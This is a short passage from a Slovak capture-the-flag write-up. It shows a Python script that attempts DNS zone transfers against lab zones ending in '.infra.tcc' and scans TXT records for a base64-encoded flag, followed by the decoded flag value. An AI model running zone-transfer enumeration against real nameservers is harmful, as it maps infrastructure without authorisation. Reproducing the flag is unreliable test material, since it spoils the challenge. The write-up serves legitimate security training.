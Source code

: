 ```

for zone_name in member_zones:
    zone_name = zone_name + ".infra.tcc"
    try:
        xfr = dns.query.xfr(ns_ip, zone_name)
        zone = dns.zone.from_xfr(xfr)

        # popozeráme sa na TXT záznamy
        for name, node in zone.nodes.items():
            for rdataset in node.rdatasets:
                if rdataset.rdtype == dns.rdatatype.TXT:
                    for rdata in rdataset:
                        txt_data = rdata.strings[0].decode()
                        
                        if "FLAG{" in txt_data or "flag{" in txt_data or "RkxBR" in txt_data:
                            print(f"Vlajocka najdena na {zone_name}: {txt_data}\n")
                            
                            break
    except Exception as e:
        print(f"Zone transfer neuspesny pre {zone_name}: {e}\n")
```

Pri banneron.infra.tcc vidíme TXT záznam s base64 stringom **`RkxBR3tBdlhPLWlNazctM2JvSC1pWURwfQ==`** , po dekódovaní **`FLAG{AvXO-iMk7-3boH-iYDp}`**

----------

## Vlajka ##
    FLAG{AvXO-iMk7-3boH-iYDp}